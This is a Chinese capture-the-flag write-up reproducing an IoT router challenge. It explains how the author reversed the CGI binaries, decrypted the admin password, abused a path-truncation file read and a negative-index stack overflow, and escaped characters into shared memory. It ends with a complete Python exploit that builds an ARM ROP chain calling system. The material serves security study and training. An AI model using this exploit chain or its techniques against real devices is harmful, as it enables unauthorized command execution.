# 第八届“强网”拟态防御国际精英挑战赛 - WIN！致敬mt 复现-先知社区

> **来源**: https://xz.aliyun.com/news/19226  
> **文章ID**: 19226

---

# 前言

拟态比赛的时候时间过于匆忙，并没有很多时间看这道题目，因此赛后进行了复现，复现过程中需要感谢@zikh26师傅和神秘的@Nik Xe大哥的帮助。

> 为什么第二道iot还没复现，问就是c++还没逆完

# 漏洞分析

## 基本信息

从启动脚本发现其实只开了一个80端口，我们先启动看一下基本的信息，可以发现80端口由lighttpd监听，启动方式为`/usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf`&#x20;

```
root@debian-armel:/# ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 Oct27 ?        00:00:00 init [2]  
root         2     0  0 Oct27 ?        00:00:00 [kthreadd]
root         3     2  0 Oct27 ?        00:00:00 [ksoftirqd/0]
root         5     2  0 Oct27 ?        00:00:00 [kworker/u:0]
root         6     2  0 Oct27 ?        00:00:00 [watchdog/0]
root         7     2  0 Oct27 ?        00:00:00 [cpuset]
root         8     2  0 Oct27 ?        00:00:00 [khelper]
root         9     2  0 Oct27 ?        00:00:00 [kdevtmpfs]
root        10     2  0 Oct27 ?        00:00:00 [netns]
root        11     2  0 Oct27 ?        00:00:00 [sync_supers]
root        12     2  0 Oct27 ?        00:00:00 [bdi-default]
root        13     2  0 Oct27 ?        00:00:00 [kintegrityd]
root        14     2  0 Oct27 ?        00:00:00 [kblockd]
root        15     2  0 Oct27 ?        00:00:00 [khungtaskd]
root        16     2  0 Oct27 ?        00:00:00 [kswapd0]
root        17     2  0 Oct27 ?        00:00:00 [ksmd]
root        18     2  0 Oct27 ?        00:00:00 [fsnotify_mark]
root        19     2  0 Oct27 ?        00:00:00 [crypto]
root        67     2  0 Oct27 ?        00:00:00 [scsi_eh_0]
root       110     2  0 Oct27 ?        00:00:00 [kworker/u:1]
root       127     2  0 Oct27 ?        00:00:00 [jbd2/sda1-8]
root       128     2  0 Oct27 ?        00:00:00 [ext4-dio-unwrit]
root       275     1  0 Oct27 ?        00:00:00 udevd --daemon
root       313   275  0 Oct27 ?        00:00:00 udevd --daemon
root       314   275  0 Oct27 ?        00:00:00 udevd --daemon
root       331     2  0 Oct27 ?        00:00:00 [kpsmoused]
root      1507     1  0 Oct27 ?        00:00:00 /sbin/rpcbind -w
statd     1538     1  0 Oct27 ?        00:00:00 /sbin/rpc.statd
root      1543     2  0 Oct27 ?        00:00:00 [rpciod]
root      1545     2  0 Oct27 ?        00:00:00 [nfsiod]
root      1552     1  0 Oct27 ?        00:00:00 /usr/sbin/rpc.idmapd
root      1706     1  0 Oct27 ?        00:00:00 dhclient -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases eth0
root      1853     1  0 Oct27 ?        00:00:00 /usr/sbin/rsyslogd -c5
daemon    1888     1  0 Oct27 ?        00:00:00 /usr/sbin/atd
root      1956     1  0 Oct27 ?        00:00:00 /usr/sbin/cron
www-data  2226     1  0 Oct27 ?        00:00:01 /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
101       2237     1  0 Oct27 ?        00:00:00 /usr/sbin/exim4 -bd -q30m
root      2277     1  0 Oct27 ?        00:00:00 /usr/sbin/sshd
root      2303     1  0 Oct27 tty1     00:00:00 /sbin/getty 38400 tty1
root      2304     1  0 Oct27 tty2     00:00:00 /sbin/getty 38400 tty2
root      2305     1  0 Oct27 tty3     00:00:00 /sbin/getty 38400 tty3
root      2306     1  0 Oct27 tty4     00:00:00 /sbin/getty 38400 tty4
root      2307     1  0 Oct27 tty5     00:00:00 /sbin/getty 38400 tty5
root      2308     1  0 Oct27 tty6     00:00:00 /sbin/getty 38400 tty6
root      2309     1  0 Oct27 ttyAMA0  00:00:00 /bin/login --     
root      2311  2309  0 Oct27 ttyAMA0  00:00:00 -bash
root      2329     2  0 Oct27 ?        00:00:00 [kworker/0:0]
root      2334     2  0 Oct27 ?        00:00:00 [flush-8:0]
root      2379     2  0 Oct27 ?        00:00:00 [kworker/0:1]
root      2417  2277  0 02:25 ?        00:00:00 sshd: root@pts/0 
root      2419  2417  0 02:25 pts/0    00:00:00 -bash
root      2449     2  0 02:26 ?        00:00:00 [kworker/0:2]
root      2450  2419  0 02:26 pts/0    00:00:00 ps -ef
root@debian-armel:/# netstat -nlap
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:42959           0.0.0.0:*               LISTEN      1538/rpc.statd  
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      1507/rpcbind    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      2226/lighttpd   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      2277/sshd       
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      2237/exim4      
tcp        0      0 10.0.2.15:22            10.0.2.2:50541          ESTABLISHED 2417/0          
tcp6       0      0 :::111                  :::*                    LISTEN      1507/rpcbind    
tcp6       0      0 :::80                   :::*                    LISTEN      2226/lighttpd   
tcp6       0      0 :::22                   :::*                    LISTEN      2277/sshd       
tcp6       0      0 ::1:25                  :::*                    LISTEN      2237/exim4      
tcp6       0      0 :::44453                :::*                    LISTEN      1538/rpc.statd  
udp        0      0 0.0.0.0:832             0.0.0.0:*                           1507/rpcbind    
udp        0      0 0.0.0.0:68              0.0.0.0:*                           1706/dhclient   
udp        0      0 127.0.0.1:866           0.0.0.0:*                           1538/rpc.statd  
udp        0      0 0.0.0.0:111             0.0.0.0:*                           1507/rpcbind    
udp        0      0 0.0.0.0:39799           0.0.0.0:*                           1538/rpc.statd  
udp        0      0 0.0.0.0:8391            0.0.0.0:*                           1706/dhclient   
udp6       0      0 :::6690                 :::*                                1706/dhclient   
udp6       0      0 :::832                  :::*                                1507/rpcbind    
udp6       0      0 :::45389                :::*                                1538/rpc.statd  
udp6       0      0 :::111                  :::*                                1507/rpcbind    
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   PID/Program name    Path
unix  2      [ ACC ]     STREAM     LISTENING     3623     1507/rpcbind        /var/run/rpcbind.sock
unix  5      [ ]         DGRAM                    4010     1853/rsyslogd       /dev/log
unix  2      [ ACC ]     SEQPACKET  LISTENING     2284     275/udevd           /run/udev/control
unix  2      [ ]         DGRAM                    5034     2417/0              
unix  2      [ ]         DGRAM                    4602     1706/dhclient       
unix  2      [ ]         DGRAM                    4381     2309/login          
unix  3      [ ]         STREAM     CONNECTED     3741     1552/rpc.idmapd     
unix  3      [ ]         STREAM     CONNECTED     3740     1552/rpc.idmapd     
unix  3      [ ]         DGRAM                    2291     275/udevd           
unix  3      [ ]         DGRAM                    2290     275/udevd 
```

接着看对应的配置文件，可以看到对应的根目录，从根目录下我们可以找到cgi和部分二进制文件

```
root@debian-armel:~# cat /etc/lighttpd/lighttpd.conf
server.modules = (
  "mod_access",
  "mod_alias",
  "mod_compress",
   "mod_redirect",
#       "mod_rewrite",
)

server.document-root        = "/var/www"
server.upload-dirs          = ( "/var/cache/lighttpd/uploads" )
server.errorlog             = "/var/log/lighttpd/error.log"
server.pid-file             = "/var/run/lighttpd.pid"
server.username             = "www-data"
server.groupname            = "www-data"
server.port                 = 80


index-file.names            = ( "index.php", "index.html", "index.lighttpd.html" )
url.access-deny             = ( "~", ".inc" )
static-file.exclude-extensions = ( ".php", ".pl", ".fcgi" )

compress.cache-dir          = "/var/cache/lighttpd/compress/"
compress.filetype           = ( "application/javascript", "text/css", "text/html", "text/plain" )

# 加载设置响应头的模块
server.modules += ( "mod_setenv" )

# 彻底禁用ETag（否则客户端会继续带 If-None-Match）
etag.use-inode = "disable"
etag.use-mtime = "disable"
etag.use-size  = "disable"

# 对常见静态资源直接禁用缓存
$HTTP["url"] =~ "\.(html|css|js|png|jpg|gif)$" {
  setenv.add-response-header += (
    "Cache-Control" => "no-store, no-cache, must-revalidate",
    "Pragma"        => "no-cache",
    "Expires"       => "0"
  )
}


# default listening port for IPv6 falls back to the IPv4 port
include_shell "/usr/share/lighttpd/use-ipv6.pl " + server.port
include_shell "/usr/share/lighttpd/create-mime.assign.pl"
include_shell "/usr/share/lighttpd/include-conf-enabled.pl"
```

## 解密admin的账号密码

修改下启动的参数，增加两个端口，22用于ssh连接，1234用于gdbserver的调试

```
sudo qemu-system-arm \
  -M versatilepb \
  -m 256 \
  -kernel vmlinuz-3.2.0-4-versatile \
  -initrd initrd.img-3.2.0-4-versatile \
  -hda debian_wheezy_armel_standard.qcow2 \
  -append "root=/dev/sda1 console=ttyAMA0" \
  -net nic -net user,hostfwd=tcp::1337-:80,hostfwd=tcp::1338-:22,hostfwd=tcp::1234-:1234 \
  -nographic
```

尝试访问登陆页面



抓包看下，发现登录逻辑和auth.cgi有关



把对应的lighttpd文件和cgi复制到宿主机

```
➜  binfile scp -r -P 1338 root@127.0.0.1:/var/www/cgi-bin ./
➜  binfile scp -P 1338 root@127.0.0.1:/usr/sbin/lighttpd ./
➜  binfile tree ./ -L 2   
./
├── cgi-bin
│   ├── auth.cgi
│   ├── lang.cgi
│   ├── manage.cgi
│   ├── session_check.cgi
│   ├── upload.cgi
│   └── watch
└── lighttpd

2 directories, 7 files

```

分析auth.cgi，发现一个存储账号密码的文件



```
root@debian-armel:/var/www/cgi-bin# cat /tmp/store/users.txt 
admin:dlZ4bWFsdjUDaiYCeCUqfGYUEhBvFW97dmtxcA==
```

不难看出这里的密码需要解密，跟踪下文件打开的逻辑，会发现最后有一个sprintf打印这一段数据，因此推断上面的逻辑是读取文件，所以这里可以尝试动调验证一下



下断点之后发现，确实是读取了admin加密后的密码，



继续分析ida可以发现下方有一段strcmp的逻辑，经过分析可以发现其实是讲我们的输入密码进行加密后与admin加密后的密码进行对比





加密的算法比较简单，核心逻辑如下，先进行xor，然后将最后的结果base64加密，因此可以根据加密的后的密码计算出原本admin的密码

```
    memset(input_enc_passwd, 0, sizeof(input_enc_passwd));
    passwd_len = strlen(passwd);
    passwd_memory = malloc(passwd_len);
    if ( !passwd_memory )
      goto LABEL_107;
    if ( passwd_len > 0 )
    {
      do
      {
        passwd_memory[idx] = xor_key[idx % 10] ^ passwd[idx];// xor
        ++idx;
      }
      while ( passwd_len != idx );
      idx = 0;
      input_enc_passwd_ = input_enc_passwd;
      idx_ = 0;
      while ( 1 )
      {
        v70 = passwd_memory[idx_];
        if ( passwd_len > idx_ + 1 )
        {
          v57 = passwd_memory[idx_ + 1];
          if ( passwd_len <= idx_ + 2 )
          {
            LOBYTE(v58) = 0;
            v59 = (16 * (v70 & 3)) | (v57 >> 4);
            idx_ += 2;
            v60 = v70 >> 2;
            v61 = 4 * (v57 & 0xF);
            v63 = 0;
            v62 = 0;
          }
          else
          {
            v58 = passwd_memory[idx_ + 2];
            v59 = (16 * (v70 & 3)) | (v57 >> 4);
            idx_ += 3;
            v60 = v70 >> 2;
            v61 = 4 * (v57 & 0xF);
            v62 = v58 >> 6;
            v63 = 1;
          }
          v64 = v62 | v61;
          if ( v63 )
          {
            v65 = v58 & 0x3F;
            v66 = 1;
          }
          else
          {
            v66 = 1;
            v65 = 0;
          }
        }
        else
        {
          v66 = 0;
          v71 = v70 & 3;
          ++idx_;
          v60 = v70 >> 2;
          v59 = 16 * v71;
          v64 = 0;
          v63 = 0;
          v65 = 0;
        }
        if ( idx == '\x03\xFC' )
          break;
        v67 = aAbcdefghijklmn[v59];
        input_enc_passwd[idx] = aAbcdefghijklmn[v60];
        input_enc_passwd_[1] = v67;
        if ( v66 )
          v68 = aAbcdefghijklmn[v64];
        else
          v68 = 61;
        input_enc_passwd_[2] = v68;
        if ( v63 )
          v69 = aAbcdefghijklmn[v65];
        else
          v69 = 61;
        input_enc_passwd_[3] = v69;
        idx += 4;
        input_enc_passwd_ += 4;
        if ( passwd_len <= idx_ )
          goto LABEL_94;
      }
      free(passwd_memory);
LABEL_107:
      output("Internal error.");
      return 0;
    }
LABEL_94:
    input_enc_passwd[idx] = 0;
    free(passwd_memory);
```

解密脚本

```
import base64

def xor_bytes(data: bytes, key: bytes) -> bytes:
    k = len(key)
    return bytes(b ^ key[i % k] for i, b in enumerate(data))

def decrypt_from_b64(b64_str: str, key: bytes) -> bytes:
    enc = base64.b64decode(b64_str)
    return xor_bytes(enc, key)

def encrypt_to_b64(plain: bytes, key: bytes) -> str:
    enc = xor_bytes(plain, key)
    return base64.b64encode(enc).decode()

if __name__ == "__main__":
    target_str = "dlZ4bWFsdjUDaiYCeCUqfGYUEhBvFW97dmtxcA=="
    xor_key = b"N1K_ROUT3R"

    recovered = decrypt_from_b64(target_str, xor_key)
    # 常见固件里会有结尾 0 字节，可按需去掉
    recovered_str = recovered.rstrip(b"\x00")

    print("raw bytes:", recovered)
    try:
        print("utf-8:", recovered_str.decode("utf-8"))
    except UnicodeDecodeError:
        pass
```

密码为admin/8g323##a08h33zx33@!B!

```
➜  binfile python3 decode_passwd.py
raw bytes: b'8g323##a08h33zx33@!B!$$$$$$$'
utf-8: 8g323##a08h33zx33@!B!$$$$$$$
```

## 栈溢出

通过admin账号登陆后台后，可以去访问很多其他的功能



这里我从manage.cgi开始分析，可以发现一些值得关注的地方，比如说这里创建了一个共享内存，接着会用一个bss段上的指针去指向这个共享内存



这里人为传入的rk参数如果与/tmp/rootkey的内容一致，则会进入下方的函数逻辑，继续跟进



这里仔细看一下就发现tv.tvusec & 1的值无非0或1，所以一定会调用到sub9FD0函数



sub9FD0函数首先会把/tmp/store/id.txt文件的id值读出来，也就是下方的v16。接着调用到shmmemdump，这里会根据传入的第三个参数来决定采用哪一种memcopy的模式，第一次调用是正常的memcpy调用，将共享内存的内容读到堆上。



接着这里的((buf + (((unsigned int8)v16 ^ 0x13) & 1))，由于 & 1操作的存在，因此还是会调用到shmmemdump函数，但是此时的v16其实int类型，所以这里如果传入一个负数，就会导致一个溢出，由于是拷贝到v19，而v19是一个栈上的值，所以会造成栈溢出



结合上方的分析，我们可以发现，我们这里的栈溢出是有前置条件的

* id要为负数
* niksessid需要提前知道，这样才可以提前设置rk的值，然后进入rootkeyprivilegedmode()函数

所以接下来再分析的同时还需要解决这两个问题

## 目录截断

分析upload.cgi文件

当action为download的时候，可以设置path字段，然后下面存在一个snprintf函数，这里其实存在一个截断的问题，同时注意checksuffix(filepath, "nik.gif")会检查文件的后缀是不是nik.gif，那么其实可以尝试去构造一个路径，类似于/tmp/./././xxxxxrootkeynik.gif的形式，这样保证0x60截断了nik.gif，同时绕过后缀的检查，然后同时还可以访问到/tmp/rootkey文件，接着下面读取文件内容，同时满足文件大小是64b，然后会将内容输出



但是这里存在一个问题就是/tmp/rootkey这个文件在默认状态下不存在，所以我们需要找到创建这个文件的逻辑

```
root@debian-armel:/var/www# ls /tmp/
store

```

可以通过grep -r查找，发现了watch中存在rootkey这个字符串

```
root@debian-armel:/var/www/cgi-bin# grep -r rootkey ./
Binary file ./watch matches
Binary file ./manage.cgi matches
```

分析这个binary可以发现，这里会创建一个64b大小的文件，然后再重命名为/tmp/rootkey，最后输出Good luck



那么通过这样，我们可以创建/tmp/rootkey文件，同时通过目录截断读取这个文件的内容，也就是我们知道了niksessid，这样我们可以提前设置rk的值，绕过判断，触发漏洞逻辑

通过分析lang.cgi，我们可以通过设置setid字段设置id的值，然后这个值就会被保存到/tmp/store/id.txt文件里



那么至此为止，我们已经具备了触发栈溢出的能力了，那么现在的问题是如何写rop

## 字符逃逸

回头看栈溢出的位置，其实是拷贝共享内存的内容到栈上，那么现在就需要接着去看共享内存的值应该如何设置



这里会根据我们传入的action来决定执行什么函数



这是actiondispatchtable的内容



问题出现在setpkfunc中，这里会将/tmp/store/publicfile.txt的内容读出来，仔细看会发现存在一个off-by-one

> 但是其实根本没用



接着这里会有一个转化，就是转化为16进制的操作，同时仍然存在off-by-one



接着的操作比较迷惑，一些奇怪的判断，然后需要注意的是当idx == 80时，会直接执行finaldata81] = chunk80];然后退出循环，也就意味着chunk80]不需要经过前面的字符检查，直接被赋值到finaldata81]



下面就可以通过设置cnt1和cnt2来将我们逃逸的字符写到共享内存上



## 命令执行

由于这题没有pie和aslr，所以可以直接获取到gadget，同时出于稳定性考虑，我们可以直接把system需要执行的字符串写到共享内存上，这样更稳定，然后作为system的参数，这样就可以稳定的rce了

需要注意的是，我们需要将flag重定向到/tmp/store/logs.txt，然后通过log的查看功能来看到flag



# exploit

```
from pwn import *
import requests
from urllib.parse import quote_plus
import re
import asyncio

mysession = None
mysid = None
base_url = "http://127.0.0.1:8800"

headers = {
    "Host": "127.0.0.1:8800",
    "sec-ch-ua": '"Chromium";v="140", "Not=A?Brand";v="24", "Microsoft Edge";v="140"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"macOS"',
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://127.0.0.1:8800",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Edg/140.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-User": "?1",
    "Sec-Fetch-Dest": "document",
    "Referer": "http://127.0.0.1:8800/",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Connection": "close"
}

def set_session_cookies():
    if mysid:
        mysession.cookies.set("SID", mysid)
        mysession.cookies.set(
            "mitmproxy-auth",
            '2|1:0|10:1745484849|14:mitmproxy-auth|4:eQ==|'
            'bcade3a9f1b37c48d9c3d670a0d91c2524f01452c91ba02f80c059c1a5c1b0a5'
        )
    else:
        print("[-] 未设置 SID")
        exit(1)

def send_post(url, data):
    set_session_cookies()
    resp = mysession.post(base_url + url, headers=headers, data=data)
    return resp.text

def send_get(url, params):
    set_session_cookies()
    resp = mysession.get(base_url + url, headers=headers, params=params)
    return resp.text

def login(username="admin", password="8g323##a08h33zx33@!B!$$$$$$$"):
    global mysession, mysid

    url = "/cgi-bin/auth.cgi"
    mysession = requests.Session()

    data = f"username={quote_plus(username)}&password={quote_plus(password)}"
    resp = mysession.post(base_url + url, headers=headers, data=data, allow_redirects=False)

    mysid = mysession.cookies.get("SID")
    if not mysid:
        print("[-] 登录失败，未获取到 SID")
        mysession = None
        return False

    print(f"[+] 登录成功，SID = {mysid}")
    return True

def upload(data):
    return send_post("/cgi-bin/upload.cgi", data)


def manage(params):
    return send_get("/cgi-bin/manage.cgi", params)


def create_rootkey():
    return send_get("/cgi-bin/watch", {})

def set_id(params):
    print("[+] setid saved: " + str(params["setid"]))
    return send_get("/cgi-bin/lang.cgi", params)

def make_rop():
# '''
# 0x00015b24: pop {lr}; bx lr; 
# 0x0010c730: pop {r0, lr}; bx lr; 
# '''
    libc = 0xb6e8f000
    pop_lr = 0x00015b24 + libc
    pop_r0_lr = 0x0010c730 + libc
    system = 0x38d34 + libc
    shm_addr = 0xb6ffc000
    args_addr = shm_addr + 0x24 + 0x4 * (3 + 1)
    cmd = "cat /home/ctf/flag > /tmp/store/logs.txt"

    rop = b'a' * 0x24 + p32(pop_lr)
    rop += p32(pop_r0_lr) + p32(args_addr) + p32(system)
    rop += cmd
    rop += b'\x00'

    pk_prefix = "00" * 80

    for idx, val in enumerate(rop):
        byte_hex = f"{val:02x}" 
        pk_content = pk_prefix + byte_hex * 2
        print(f"[+] set payload_store[{idx}] = 0x{byte_hex}")
        payload = {
            "action": "upload_pubkey",
            "filecontent": pk_content,
        }
        upload(payload)

        params = {
            "action": "set_publicfile",
            "cnt1": 80,
            "cnt2": idx,
        }
        manage(params)

def redirect_flag_to_log():
    create_rootkey()
    suffix = "nik.gif"
    need_to_minus = len("/tmp/"+"rootkey") + 1
    file_path = "./" * ((0x60-need_to_minus)//2) + "/" + "rootkey" + suffix

    # print(hex((need_to_minus)))
    # print(hex(len(file_path)))

    payload = {
        "action": "download",
        "path": file_path,
    }
    rootkey = upload(payload)
    print("[+] rootkey: " + rootkey)

    payload = {
        "setid": "-1",
    }
    set_id(payload)

    make_rop()

    payload = {
        "action": "manage",
        "rk": rootkey,
    }
    manage(payload)


def get_flag():
    payload = {
        "action": "logs",
    }
    flag = manage(payload)
    print("[+] ", flag)

login()
redirect_flag_to_log()
get_flag()

```

这个脚本需要分开执行，先执行下面，同时保证rootkey是可见字符（如果不是，则会让最后的漏洞无法触发）

```
login()
redirect_flag_to_log()
```

接着执行，就可以拿到flag

```
login()
get_flag()
```



# 总结

总体来看其实难度并不算大，但逆向上会耽误一点时间，主要是对于总体的把控，比如说每一个cgi有什么功能，我怎么去触发，哪些功能有问题，并巧妙地将孤立的微小漏洞组合起来，形成一条完整的 RCE 攻击链
